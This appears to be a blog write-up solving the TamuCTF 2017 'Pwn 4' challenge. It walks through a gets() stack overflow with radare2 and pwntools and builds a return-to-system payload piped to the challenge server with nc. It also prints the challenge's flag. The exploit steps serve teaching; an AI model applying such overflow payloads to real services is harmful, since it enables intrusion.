 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-05-30T18:56:18+02:00
description: a
tags:
- test
title: "TamuCTF 2017 - Pwn 4"
summary: "Is curious that this specific challenge is more worthy than the previous one ([pwn3](../pwn3/pwn3.md)). As we will see it is way easier."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn4 challenge description](/assets/1-pwn4_description.png)

Is curious that this specific challenge is more worthy than the previous one ([pwn3](../pwn3/pwn3.md)). As we will see it is way easier.

Lets take a look to the code with r2
```bash
$ r2 pwn4 -c 'aaa; afl'
```
![Pwn4 functions](/assets/2-pwn4_functions.png)

We can see four interesting functions:

* **`sym.flag_func()`** at `0x080484cb`
* **`sym.func2()`** at `0x080484e4`
* **`sym.func1()`** at `0x080484fd`
* **`sym.main()`** at `0x08048515`

```bash
[0x080483d0]> s sym.flag_func; V; p; p
# be positioned at start of sym.flag_func; Change to Visual mode; change mode view*2
```

Here they are, take a look at them.

![Pwn4 functions code](/assets/3-pwn4_functions_code.png)

Obviously we should try to execute that **`sym.flag_func()`**, it seems it will try print a file (**flag2.txt**, strange name right? why 2?) using the `cat` command on the remote server. But that function is never called. You can check it on your own with:
```
[0x080484f7]> axt sym.flag_func
```

Then we need to keep looking a bit more.

1. ~~**`sym.func2()`**~~ is just printing a message (it even tells you not to waste your time with it). So we can strikethrough.
2. **`sym.func1()`** is a bit more interesting because it is using the unsecure function **`gets()`**.  
Thanks to this function we would be able to overwrite the **``$eip``** register. We dont need to cross our fingers a lot of time because we fastly see that **`sym.func1()`** is being called from **`main()`**! yay!

Lets figure out, how many bytes do we need to overwrite **``$eip``** register.
```bash
[0x080484f7]> q # Close r2 (we need to open the binary again with debug mode).
$ pwn cyclic 40 # To generate string with unique subsequences.
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa
$ r2 -X "stdin=\"`pwn cyclic 40`\"" -d pwn4 -c 'aaa; dc;'
.
.
[0x61616165]> q
$ pwn cyclic -l 0x61616165
16
```
So, we can overwrite the **``$eip``** register writing the next following 4 bytes (from byte 17 to 20)!  
Now we create a file with the previously commented file (**`flag2.txt`**) to try this out.

```bash
$ echo This is the flag > flag2.txt
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | ./pwn4
```
![Pwn4 printing flag2.txt](/assets/4-pwn4_printing_flag2.png)

Good! what will the remote server say?
```bash
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | nc pwn.ctf.tamu.edu 4324
```
![Pwn4 printing flag2.txt](/assets/5-pwn4_remote_flag2_content.png)

Ouch! that file was just a decoy. There must be a file named **`flag.txt`**.
> But how could we executed it? There is only one function which print a file and its name is hardcoded.

Well, that is not a problem, because there is a call to **`system()`**.
The only thing we need to do is to pass a different argument: **`cat flag.txt`** instead of **`cat flag2.txt`**.

If you inspect all the strings of the binary you may find surprise:
![Pwn4 printing flag2.txt](/assets/6-pwn4_pointer_flag_file.png):

As you may know, in order to pass the arguments to the function they need to be pushed into the stack. In case of a string not its value but its reference (a pointer **`0x0804a028`**.

Because we can overwrite the stack we can "imitate" a push into it:
1. Instead of starting in the address of **`sym.flag_func()`** (**`0x080484cb`**) we will use **`system()`** one (**`0x080484d9`**).
	```bash
    $ python -c 'print("A"*16 + "\xd9\x84\x04\x08")'
    ```
2. We need to push the pointer to the string to indicate **`system()`** which is its argument.
 	```bash
    $ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")'
    ```

Lets send to the server:
```bash
$ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")' | nc pwn.ctf.tamu.edu 4324
```
![Pwn4 printing flag2.txt](/assets/7-pwn4_answer.png)
Answer: gigem{R3TURN_0R13NT3D_PR0F1T}

### Complete video
<a href="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf?autoplay=1" target="_blank"><img src="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf.png" /></a>


### Tools used and some references:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [asciinema](https://asciinema.org) - To record the session.
